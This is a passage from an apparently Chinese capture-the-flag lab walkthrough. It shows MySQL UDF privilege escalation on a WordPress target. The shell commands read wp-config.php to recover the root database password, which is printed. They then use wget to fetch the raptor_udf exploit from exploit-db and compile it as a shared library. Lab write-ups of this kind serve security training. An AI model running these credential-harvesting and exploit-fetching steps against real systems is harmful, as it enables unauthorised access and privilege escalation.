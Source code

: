 ![](image64/64-36.png)

##### 检测到系统装有第三方软件——mysql数据库，版本为5.5.60

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-37.png)

##### 翻阅数据库配置文件获取 root 密码

```shell
ls
cd wordpress
ls
cat wp-config.php
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-38.png)

`R@v3nSecurity`

##### 利用 Mysql 提权 searchsploit

下载 mysql udf poc 进行编译  (在靶机上进行编译出错，最好还是在本机进行编译再上传）

```shell
wget https://www.exploit-db.com/download/1518
mv 1518 raptor_udf.c
gcc -g -c raptor_udf.c
gcc -g -shared -o raptor_udf.so raptor_udf.o -
mv raptor_udf.so 1518.so
```
